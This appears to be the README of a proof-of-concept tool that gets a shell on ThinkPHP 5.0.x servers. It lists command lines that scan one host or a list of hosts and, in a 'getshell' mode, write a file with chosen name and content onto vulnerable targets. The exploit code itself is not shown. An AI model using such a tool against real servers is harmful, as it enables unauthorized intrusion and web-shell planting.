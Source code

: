 # tp5.0.x-getshell-poc
Example:
  scan:
    py -3 thinkphp5.0.x-getshell.py --host url --action scan
    py -3 thinkphp5.0.x-getshell.py --txt filename.txt --action scan
  getshell:
    py -3 thinkphp5.0.x-getshell.py --host url --action getshell --filename filename --content content
    py -3 thinkphp5.0.x-getshell.py --txt filename.txt --action getshell --filename filename --content content
The content parameter requires url encoding
